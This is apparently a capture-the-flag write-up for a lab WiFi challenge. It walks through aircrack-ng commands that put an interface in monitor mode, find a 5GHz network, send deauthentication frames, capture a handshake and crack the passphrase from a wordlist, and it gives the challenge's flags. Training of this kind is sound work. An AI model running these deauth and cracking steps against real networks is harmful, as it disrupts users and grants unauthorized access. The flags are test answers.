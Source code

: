 # Wifi Security

- Category: Wifi 
- Points: 100

## Challenge Description:
```
A dual-band WiFi interface is available in the lab machine. There is a WiFi network operating in the vicinity of the lab machine. 

Answer the following questions:

    1. The WiFi network is operating on which channel? Provide channel number.
    2. What is the secret passphrase of that WiFi network? 

Instructions: 
- The password dictionary "100-common-passwords.txt" is kept in the home directory of root user (i.e. /root/)
- Aircrack-ng suite is installed on the machine
```
I am missing a few screenshots for this, so I do apologise in advance. :sweat_smile:

## Solution:
*Note: This was written in a rush during the Competition, hence the tone is slightly different.*
### Tools used:
- `aircrack-ng` suite

### Flag 1:
First, we need to set our interface to monitor mode.

We can do so by running:

`iw dev wlan0 set monitor none`
*no need to run with sudo as we are root!*

Next, we need to scan for wifi! 

`airodump-ng wlan0`

![](2.4-only.png)

However, as it is a 5GHz network, and airodump-ng does not scan for 5Ghz channels by default, we need to include the -b a flag (sets the band to scan in ac mode (802.11ac - 2.4GHz **and** 5GHz))

`airodump-ng wlan0 -b a`

![](network-found-5GHz.png)

We find the wifi network broadcasting on `channel 132`, which gives us the first flag.
### Flag 2:
Next, we need to focus on that specific network, and do a network capture

```sh 
airodump-ng --bssid A2:E7:5C:D3:F7:20 -c 132 --output-format pcap -w AAAA wlan0
```

However, it is here that we hit our first roadblock. 

![](no-tmux.png)

I need to capture network while interacting with said network (with this command: `aireplay-ng --deauth 500 -a A2:E7:5C:D3:F7:20 wlan0`) ~~, and since I did not have access to tmux or GNU Screen, I had to get creative with running commands in the background!~~ (I later realised that creating more tabs would run on the same instance...so this was completly unnecssary as it created background processes that I had to manually kill).

```sh
airodump-ng --bssid A2:E7:5C:D3:F7:20 -c 132 --output-format pcap -w AAAA wlan0 & aireplay-ng  --deauth 500 -a A2:E7:5C:D3:F7:20 wlan0
```

After about a minute, I get a pcap file! Which we can then crack with aircrack-ng (and the provided `100-common-passwords.txt` file)!

```sh
aircrack-ng AAAA-01.cap -w ./100-common-passwords.txt
```
![](password-cracked.png)

We can then get the password 'twilight' from aircrack!

### Reference: 
https://securethelogs.com/2019/08/09/cracking-wireless-passwords-with-aircrack-ng/

## Flags:
1. `132`
2. `twilight`